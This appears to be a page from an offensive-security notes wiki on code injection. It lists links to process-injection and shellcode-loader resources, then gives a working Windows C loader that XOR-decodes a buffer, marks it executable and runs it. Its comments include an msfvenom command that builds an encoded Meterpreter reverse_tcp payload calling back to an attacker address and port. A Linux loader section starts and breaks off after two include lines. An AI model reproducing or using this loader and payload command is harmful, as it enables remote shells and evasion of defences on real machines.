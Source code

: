 # Code Injection

- [https://www.elastic.co/blog/ten-process-injection-techniques-technical-survey-common-and-trending-process](https://www.elastic.co/blog/ten-process-injection-techniques-technical-survey-common-and-trending-process)
- [https://blog.xpnsec.com/weird-ways-to-execute-dotnet/](https://blog.xpnsec.com/weird-ways-to-execute-dotnet/)
- [https://gitlab.com/users/ORCA666/projects](https://gitlab.com/users/ORCA666/projects)
- [https://github.com/itaymigdal/awesome-injection](https://github.com/itaymigdal/awesome-injection)




## Shellcode as Function

- [http://disbauxes.upc.es/code/two-basic-ways-to-run-and-test-shellcode/](http://disbauxes.upc.es/code/two-basic-ways-to-run-and-test-shellcode/)
- [https://www.fergonez.net/post/shellcode-csharp](https://www.fergonez.net/post/shellcode-csharp)
- [https://www.ired.team/offensive-security/code-injection-process-injection/local-shellcode-execution-without-windows-apis](https://www.ired.team/offensive-security/code-injection-process-injection/local-shellcode-execution-without-windows-apis)
- [https://github.com/byt3bl33d3r/OffensiveNim/issues/16](https://github.com/byt3bl33d3r/OffensiveNim/issues/16)
- [https://github.com/chvancooten/OSEP-Code-Snippets/blob/main/Linux%20Shellcode%20Loaders/simpleLoader.c](https://github.com/chvancooten/OSEP-Code-Snippets/blob/main/Linux%20Shellcode%20Loaders/simpleLoader.c)
- [https://github.com/paranoidninja/Brute-Ratel-C4-Community-Kit/blob/main/deprecated/badger_template.ps1](https://github.com/paranoidninja/Brute-Ratel-C4-Community-Kit/blob/main/deprecated/badger_template.ps1)

{% tabs %}
{% tab title="Windows" %}
{% code title="loader.c" %}
```c
#include <stdio.h>
#include <windows.h>

// msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.13.37 LPORT=1337 -f raw -o met.bin --encrypt xor --encrypt-key a
// xxd -i met.bin > shellcode.h
#include <windows.h>
#include "shellcode.h"

int main() {
    DWORD lpThreadId = 0;
    DWORD flOldProtect = 0;
    int bufsize = sizeof(buf);
    LPVOID f = VirtualAlloc(NULL, bufsize, MEM_RESERVE|MEM_COMMIT, PAGE_READWRITE);
    for (int i = 0; i < (int)bufsize-1; i++) { buf[i] = buf[i] ^ 'a'; }
    memcpy(f, buf, bufsize);
    VirtualProtect(f, bufsize, PAGE_EXECUTE_READ, &flOldProtect);
    ((void(*)())f)();
    //VirtualFree(f, 0, MEM_RELEASE);
    WaitForSingleObject((HANDLE)-1, -1);
    return 0;
}
```
{% endcode %}
{% endtab %}
{% tab title="Linux" %}
{% code title="loader.c" %}
```c
#include <stdio.h>
#include <stdlib.h>
```